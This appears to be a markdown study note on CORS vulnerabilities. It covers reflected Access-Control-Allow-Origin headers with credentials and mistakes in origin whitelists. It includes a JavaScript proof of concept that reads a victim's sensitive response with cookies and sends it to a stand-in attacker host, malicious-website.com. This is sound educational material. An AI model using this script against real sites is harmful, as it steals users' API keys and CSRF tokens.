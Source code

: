 - response

```
HTTP/1.1 204 No Content
...
Access-Control-Allow-Origin: https://normal-website.com
Access-Control-Allow-Methods: PUT, POST, OPTIONS
Access-Control-Allow-Headers: Special-Request-Header
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 240
```

## Vulnerablities arising from CORS

### Server-generated ACAO header from client-specified Origin header

For example, consider an application that receives the following request:

```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

It responds with :

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

- These headers state that access is allowed from the requesting domain and that the cross-origin requests can include cookies.
- If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:

```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open("get", "https://vulnerable-website.com/sensitive-victim-data", true);
req.withCredentials = true;
req.send();

function reqListener() {
  location = "//malicious-website.com/log?key=" + this.responseText;
}
```

## Errors parsing Origin headers

- some applications that support access from multiple origins by using whitelist of allowed origins
- if the origin appears on the whitelist then it is reflected in the Access-Control-Allow-Origin header and the access is granted
- mistakes often arise when implementing CORS origin whitelists
  - eg - allow access from all their subdomains including future subdomains not yet in existence
  - allow access from various other organization's domains including their subdomains
- rules are often implemented by matching URL prefixes or suffixes, or using regular expressions
